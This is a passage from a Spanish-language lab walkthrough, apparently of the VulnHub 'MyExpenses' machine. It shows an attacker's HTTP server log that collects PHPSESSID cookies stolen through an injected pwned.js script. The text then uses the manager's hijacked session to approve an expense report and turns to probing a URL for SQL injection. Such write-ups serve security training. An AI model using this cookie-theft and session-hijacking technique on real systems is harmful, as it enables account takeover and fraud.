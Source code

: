 ```bash
❯ python3 -m http.server 4646
Serving HTTP on 0.0.0.0 port 4646 (http://0.0.0.0:4646/) ...

192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /?hacked=PHPSESSID=fjfh8soap2slbhbihlaut1hbb3 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /?hacked=PHPSESSID=11jvn87cpnqu3kpr5meqrhjlp3 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /?hacked=PHPSESSID=11jvn87cpnqu3kpr5meqrhjlp3 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:33] "GET /?hacked=PHPSESSID=fjfh8soap2slbhbihlaut1hbb3 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:47] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:39:47] "GET /?hacked=PHPSESSID=g4ofn98l2pbg4e44jus7u1he50 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:42:27] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:42:27] "GET /?hacked=PHPSESSID=kb73a75rbk1n4dtfln2nb4l686 HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:42:27] "GET /?hacked=PHPSESSID=kb73a75rbk1n4dtfln2nb4l686 HTTP/1.1" 200 -
```

Hemos capturado las cookies de varios usuarios, probamos y vemos que la cookie `kb73a75rbk1n4dtfln2nb4l686` pertenece a nuestro manager Manon Riviere. Accedemos a Expense Reports y vemos nuestro reporte pendiente de aprobar, por supuesto lo autorizamos rápidmente

<img src="/assets/VH/MyExpenses/newreport.png">

Aún no está todo hecho. Ahora el informe de gastos está pendiente de autorizar por `Paul Baudouin` que es el `Financial approver` pero incialmente este usuario no está muy activo y no podemos capturar su cookie, tendremos que buscar otras vías alternativas

El perfil de Manon tiene una pestaña `Rennes` que no teníamos en nuestro perfil. Accedemos e inspeccionando la composición de la url nos lleva a pensar en SQLI

<img src="/assets/VH/MyExpenses/rennes.png">
